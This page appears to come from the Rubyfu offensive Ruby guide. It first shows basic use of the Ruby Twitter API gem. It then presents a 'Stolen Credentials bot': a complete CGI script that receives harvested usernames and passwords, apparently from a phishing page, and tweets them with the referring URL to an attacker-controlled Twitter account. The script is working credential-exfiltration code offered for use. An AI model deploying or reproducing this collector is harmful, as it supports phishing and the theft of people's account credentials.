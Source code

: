 # Twitter API

- To install twitter API
```
gem install twitter
```

## Basic Usage
```ruby
require 'twitter'
client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end


client.user("KINGSABRI")
client.update("w00t! #Rubyfu")      # Tweet (as the authenticated user)
client.follow("KINGSABRI")          # Follow User (as the authenticated user)
client.followers("KINGSABRI")       # Fetch followers of a user
client.followers                    # Fetch followers of current user 
client.status(649235138585366528)   # Fetch a particular Tweet by ID
client.direct_message_create("KINGSABRI", "Hi, I'm #Rubyfu")    # Send direct message to a particular user
```

## Building Stolen Credentials bot
Here's the idea, We'll make a [CGI script][1] that takes sent stolen credentials then tweet these credentials to as notification or log function
```ruby
#!/usr/bin/ruby -w                                                                 

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Refere!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```






[1]: http://rubyfu.net/content/module_0x4__web_kungfu/index.html#cgi